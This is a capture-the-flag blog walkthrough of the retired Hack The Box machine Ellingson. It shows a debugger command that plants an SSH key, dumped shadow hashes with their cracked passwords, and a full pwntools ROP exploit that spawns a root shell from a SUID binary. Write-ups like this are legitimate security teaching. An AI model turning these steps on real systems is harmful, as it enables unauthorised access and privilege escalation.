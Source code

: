 ```yaml
---
layout: post
title:  "Ellingson Walkthrough"
author: nanobyte
date:   2019-10-22
description: Hack The Box writeup for Ellingson, Retired Hard Box
tags: ROP SSH Python test
---
```


Ellingson was an awesome box to root! Not only did I get to sharpen some of my ROP skills, but the throwback to one of my favorite movies (Hackers) was a treat from beginning to root. For those of you who have not seen Hackers, shame on you. Go watch it! This box was also awesome because getting the initial foothold was not the average run this flavor exploit, but really had to think out of the box for me and starting new. So, lets get started!

First off, I ran nmap against the box

{% highlight bash lineos %}
nmap -sV -sC -p- -oA ellingson.htb 10.10.10.139
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-22 10:15 CDT
Nmap scan report for 10.10.10.139
Host is up (0.066s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%),
Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A
or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
{% endhighlight %}

Once I was able to identify what services were running, I hopped on over to the website and began to poke around while running gobuster. When I got to the /articles/ directory, I noticed the numbers incremented and so manually fuzzed. Fuzzing http://10.10.10.139/articles/5 was able to find python interactive shells. There, I had access to a python debugger!

{% highlight bash lineos %}
File "/opt/corp-web/run.py", line 32, in show_articles
slug = articles[index-1]

>>> import getpass
>>> print(getpass.getuser())
hal
{% endhighlight %}

Nice! I found I have the ability to run os system commands. During enumeration, I also found that there is Port 22 open. First, I tried to steal the SSH key, but I did not know the key passphrase. However, looking further, I can write to the authorized_keys file! Since taking the id_rsa key file on there didn’t work, let’s generate a new key, and place our pub key in there:

{% highlight bash lineos %}
import os

os.system("echo '\nssh-rsa [your RSA key] root@kali' >> /home/hal/.ssh/authorized_keys")
{% endhighlight %}

And now I can login to SSH! Awesome, initial foothold gained!

Now that we login, during further enumeration we are user Hal and need to get to user. Enumerating the system, there is a backup folder. In there, we have read permissions to shadow.bak!? Bad admin!

{% highlight bash lineos %}
cat /var/backups/shadow.bak

root:*:17737:0:99999:7:::
daemon:*:17737:0:99999:7:::
bin:*:17737:0:99999:7:::
sys:*:17737:0:99999:7:::
sync:*:17737:0:99999:7:::
games:*:17737:0:99999:7:::
man:*:17737:0:99999:7:::
lp:*:17737:0:99999:7:::
mail:*:17737:0:99999:7:::
news:*:17737:0:99999:7:::
uucp:*:17737:0:99999:7:::
proxy:*:17737:0:99999:7:::
www-data:*:17737:0:99999:7:::
backup:*:17737:0:99999:7:::
list:*:17737:0:99999:7:::
irc:*:17737:0:99999:7:::
gnats:*:17737:0:99999:7:::
nobody:*:17737:0:99999:7:::
systemd-network:*:17737:0:99999:7:::
systemd-resolve:*:17737:0:99999:7:::
syslog:*:17737:0:99999:7:::
messagebus:*:17737:0:99999:7:::
_apt:*:17737:0:99999:7:::
lxd:*:17737:0:99999:7:::
uuidd:*:17737:0:99999:7:::
dnsmasq:*:17737:0:99999:7:::
landscape:*:17737:0:99999:7:::
pollinate:*:17737:0:99999:7:::
sshd:*:17737:0:99999:7:::
theplague:$6$.5ef7Dajxto8Lz3u$Si5BDZZ81UxRCWEJbbQH9mBCdnuptj/aG6mqeu9UfeeSY7Ot9gp2wbQLTAJaahnlTrxN613L6Vner4tO1W.ot/:17964:0:99999:7:::
hal:$6$UYTy.cHj$qGyl.fQ1PlXPllI4rbx6KM.lW6b3CJ.k32JxviVqCC2AJPpmybhsA8zPRf0/i92BTpOKtrWcqsFAcdSxEkee30:17964:0:99999:7:::
margo:$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:17964:0:99999:7:::
duke:$6$bFjry0BT$OtPFpMfL/KuUZOafZalqHINNX/acVeIDiXXCPo9dPi1YHOp9AAAAnFTfEh.2AheGIvXMGMnEFl5DlTAbIzwYc/:17964:0:99999:7:::
{% endhighlight %}

Let’s crack those hashes!

{% highlight bash %}
hashcat64.exe -m 1800 -a 0 ellingsin.txt rockyou.txt --force

theplague:password123
margo:iamgod$08
{% endhighlight %}

Now that it’s cracked, let’s login as user!

{% highlight bash %}
su margo

cat /home/margo/user.txt
d0ff9e3f9da8--------------------
{% endhighlight %}

From here, I ran the linenum.sh script, and found a binary running that should NOT be there!

{% highlight bash %}
find / -perm -u=s -type f 2>/dev/null

/usr/bin/garbage
{% endhighlight %}

I tried several methods to get the binary to my box. All ways failed, until I found openssl base64! 

{% highlight bash %}
openssl base64 < garbage

//Copy output of encoded garbage

//On your machine, create garbage.input

openssl base64 -d < garbage.input > garbage.output
{% endhighlight %}

Garbage.output is now the binary on your system! For the ROP, I had to watch Bitterman's video several times, and speak woith the HTB community on Discord (if you are NOT on their channel, I highly recommend it. There is a community of hackers who really do want to help you along with nudges!). After watching the second half of the video, and chatting with a few fellow hackers, I was able to come up with the following:

{% highlight bash %}
from pwn import *

context(terminal=['tmux', 'new-window'])
session = ssh('margo', '10.10.10.139', password='iamgod$08')

p = session.process('/usr/bin/garbage')
#p = gdb.debug('./garbage', 'b main')

context(os='linux', arch='amd64')
#context.log_level = 'DEBUG'

# make sure these are local and freshly grabbed from remote with correct permissions
garbage = ELF('garbage')
rop = ROP(garbage)
libc = ELF('libc.so.6')
junk = "A" * 136

# build rop chain
rop.search(regs=['rdi'], order='regs')
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
print "ROP Chain 1:\n{}".format(rop.dump())

payload = junk + str(rop)
p.recvuntil('password:')
p.sendline(payload)
p.recvuntil('denied.')

leaked_puts_address_in_libc = p.recv()[:8].strip().ljust(8, "\x00")
print("Leaked puts@GLIBCL {}".format(str(leaked_puts_address_in_libc)))

# unpack
leaked_puts_address_in_libc = u64(leaked_puts_address_in_libc)

libc.address = leaked_puts_address_in_libc - libc.symbols['puts']
rop2 = ROP(libc)
rop2.setuid(0x0)
rop2.system(next(libc.search('/bin/sh\x00')))
print "ROP Chain 2:\n{}".format(rop2.dump())

payload = junk + str(rop2)
p.sendline(payload)
p.recvuntil('denied.')

p.clean()
p.interactive()
{% endhighlight %}

Now, once you run the binary on your local system, it will deliver root!

{% highlight bash %}
cat /root/root.txt
1cc73a448021--------------------
{% endhighlight %}
